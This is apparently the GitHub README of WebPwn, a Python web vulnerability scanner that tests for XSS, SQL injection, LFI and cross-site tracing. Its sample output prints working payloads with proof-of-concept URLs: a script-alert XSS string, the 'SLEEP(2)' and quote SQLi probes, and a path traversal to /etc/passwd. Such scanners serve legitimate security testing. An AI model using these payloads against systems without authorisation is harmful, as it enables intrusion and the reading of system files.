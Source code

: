<h1 align="center">WebPwn</h1>
<p align="center"Web Vuln Detector</p>
<p align="center">Web Vulnerability Scanner</p>
<p align="center"> 
   <img src="https://img.shields.io/badge/language-python-blue.svg">
</p>

***

## Features

Web Application Firewall (WAF) detection.

Cross Site Scripting (XSS) tests.

SQL injection time based test.

SQL injection error based test.

Local File Inclusion (LFI) test.

Cross Site Tracing (XST) test.

***

### Download and Run

> git clone https://github.com/farinap5/webpwn.git

> cd webpwn

> python3 webpwn.py http://example.com/page.php?cat=1

***
### Example of Output

```
python3 webpwn.py http://example.com/page.php?cat=1

[*] No WAF Detected.

    WebPwn
    ------
Target: http://example.com/page.php?cat=1

Server: nginx/1.19.0
Data: Mon, 07 Dec 2020 18:24:50 GMT
Powered: PHP/5.6.40-38+ubuntu20.04.1+deb.sury.org+1

[!] Testing XSS
[!] 10 Payloads.
[+] 9 Payloads were found.

[*] Payload found!
[!] Payload: <script>alert("inject")</script>
[!] POC: http://example.com/page.php?cat=<script>alert("inject")</script>

[*] Payload found!
[!] Payload: %3Cscript%3Ealert%28%22inject%22%29%3C%2Fscript%3E
[!] POC: http://example.com/page.php?cat=%3Cscript%3Ealert%28%22inject%22%29%3C%2Fscript%3E

[!] Testing SQLi
[*] Blind SQL injection time based found!
[!] Payload: 1-SLEEP(2)
[!] POC: http://example.com/page.php?cat=1-SLEEP(2)

[*] SQL Error found.
[!] Payload: '
[!] POC: http://example.com/page.php?cat='

[!] Testing LFI
[*] Payload found!
[!] Payload: ../../../../etc/passwd
[!] POC: http://example.com/page.php?cat=../../../../etc/passwd


[!] Testing XST
[*] This site seems vulnerable to Cross Site Tracing (XST)!

```
